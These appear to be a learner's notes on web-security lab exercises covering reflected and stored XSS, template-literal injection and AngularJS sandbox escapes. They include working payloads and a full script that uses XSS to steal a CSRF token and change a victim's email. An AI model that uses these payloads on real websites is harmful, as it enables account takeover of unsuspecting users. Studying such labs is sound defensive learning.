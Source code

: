 
**Reflected XSS into JS string** - angle brackets and double quotes HTML-encoded and single quotes escaped
   
    var searchTerms = '...';
    document.write('<img src =/....' + encodeURIComponent(searchTerms)+'">')
    TEST'PAYLOAD - TEST\PAYLOAD 
`\'-alert(1)//`

---

**Stored XSS into onclick event** - angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

    onclick event
    vuln in website input
```URL
https://foo/?%27-alert(1)-%27
https://foo/?%’-alert(1)-’
```

---

**Reflected XSS into a template literal** with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

    var message = `0 search results for 'SOMETHING'/<>SOMETHING`
    |- var message = `0 search results for 'SOMETHING\u0027/\u003...SOMETHING`
`${alert(1)}`

---

**Exploiting XSS to perform CSRF**

    change email
    blog comment
    comment function vuln
```html
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```

---

**Reflected XSS with AngularJS sandbox escape without strings** !EX

    angular.module('labApp'. []).controllwe('vulnCrtl'),... $scope.value=$parse(key)...
`1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

---

**Reflected XSS with AngularJS sandbox escape and CSP** !EX
    
    exploit server
    ng-focus
    $event


[def]: #client-side-summary